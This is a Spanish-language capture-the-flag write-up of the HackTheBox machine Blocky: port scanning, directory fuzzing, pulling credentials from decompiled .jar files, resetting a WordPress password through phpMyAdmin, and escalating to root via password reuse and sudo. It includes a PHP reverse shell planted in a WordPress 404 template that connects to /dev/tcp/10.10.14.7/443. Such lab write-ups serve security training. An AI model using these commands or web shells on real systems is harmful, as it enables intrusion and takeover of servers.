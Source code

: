 ```yaml
---
layout: post
title: HTB_Active
date: 2023/07/10
---
```


# Blocky {-}

## Introduccion {-}

La maquina del dia 30/07/2021 se llama Blocky
.

El replay del live se puede ver aqui

[![S4vitaar Blocky maquina](https://img.youtube.com/vi/LPh8BTqEx2c/0.jpg)](https://www.youtube.com/watch?v=LPh8BTqEx2c)

No olvideis dejar un like al video y un comentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.37
```
ttl: 63 -> maquina linux. 
Recuerda que en cuanto a ttl se trata, 64 = linux y 128 = windows. 
Pero como estamos en hackthebox hay un nodo intermediario que hace que el ttl disminuya una unidad

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.37 
```

si consideras que va muy lento el escaneo puedes poner los siguientes parametros para que valla mucho mas rapido

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.37 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p21,22,80,25565 10.10.10.37 -oN targeted
```

| Puerto | Servicio  | Que se nos occure?                        | Que falta?           |
| ------ | --------- | ----------------------------------------- | -------------------- |
| 21     | ftp       | conectar como anonymous                   |                      |
| 22     | ssh       | conexion directa                          | usuario y contraseña |
| 80     | http      | Analisis de la web y Fuzzing              |                      |
| 25565  | minecraft | con el puerto 53 pensamos en virt hosting |                      |


### Conectar al ftp como anonymous {-}

```bash
ftp 10.10.10.37
Name: anonymous
password: <enter>
#Output
530 Login incorrect.
```

No nos deja entrar como anonymous

### Analizando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.37
```

Aqui vemos que estamos en un Wordpress

#### http-enum {-}

Lanzamos un web scan con nmap.

```bash
nmap --script http-enum -p80 10.10.10.37 -oN webScan
```

Ya nos detecta un `/phpmyadmin/` y ficheros de wordpress

#### Chequear la web del puerto 80 {-}

Con firefox navegamos en la web para ver lo que es.

- wappalizer nos dice que es Wordpress
- Vemos que la web esta under construction
- Si pinchamos el post vemos que es el usuario NOTCH que lo a echo

Como es un wordpress intentamos ir al `http://10.10.10.37/wp-login.php` y miramos si hay el usuario NOTCH. 
Efectivamente el usuario NOTCH existe. 

Vamos a por el `http://10.10.10.37/phpmyadmin/` y buscamos previamente en google si encontramos credenciales por
defecto pero no funcionan.

Tenemos que ir buscando mas rutas.

#### Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.37/WFUZZ
```

Encontramos un ruta plugins que no suele ser normal porque en wordpress los plugins suelen estar en `/wp-content/plugins` y no
en `/plugins` directamente

Aqui encontramos dos ficheros `.jar`. Los descargamos en nuestra maquina de atacante.




## Evaluacion de vulnerabilidades {-}

### Analizamos los ficheros {-}

Los ficheros `.jar` son ficheros comprimidos que se pueden descomprimir con la herramienta `unzip`

```bash
unzip BlockyCore.jar
unzip griefprevention-1.11.2-3.1.1.298.jar
```

Ya tenemos ficheros `.class` que podemos analizar con **strings** o mejor con **javap**

```bash
javap -c Blockycore.class
```

Aqui ya podemos ver cosas como un usuario root y una contraseña para un sqlUser.

Aqui vamos a la url `http://10.10.10.37/phpmyadmin/` y probamos. Ya podemos entrar en el panel de configuracion
de la base de datos.

Vemos la base de datos de wordpress y le cambiamos la contraseña al usuario NOTCH. Lo unico seria seleccionnar la Funcion
MD5 al lado de la contraseña.

```{r, echo = FALSE, fig.cap="Cambio de contraseña para el usuario notch", out.width="90%"}
    knitr::include_graphics("images/phpmyadmin-notch.png")
```

Intentamos conectar al wordpress con el usuario NOTCH y su nueva contraseña y pa dentro.


### Editar el 404 Template de Wordpress {-}

Cada vez que se puede entrar en el panel de administracion de wordpress siempre hacemos lo mismo.

Pinchamos en `Appearance > Editor` y retocamos el fichero 404 Template.

> [ ! ] Nota: Si este fichero no existe, justo encima, se puede **Select theme to edit** y buscar otro tema.

## Explotacion de vulnerabilidad & Ganando Acceso {-}

### Crear una reverse shell desde la 404 Template {-}

Nos ponemos en escucha con el puerto 443.

```bash
nc -nlvp 443
```

Editamos el fichero 404 Template con una reverse shell en php

```php
<?php
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1'");
?>
```

ya podemos ir al url `http://10.10.10.37/?p=404.php` y pa dentro

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

### User Pivoting al usuario notch {-}

Miramos si hay reutilisacion de contraseñas 

```bash
su notch 
```

Y con la contraseña encontrada en el ficher `BlockyCore.class` funciona. Y ya podemos ver la flag.## Escalada de privilegios {-}

### Rootear la maquina {-}

```bash
sudo -l
#Output
(ALL : ALL) ALL
```

Vemos que el usuario notch puede efectuar cualquier comando como qualquier usuario ;)

```bash
sudo su
whoami

root
```

Ya esta ;)
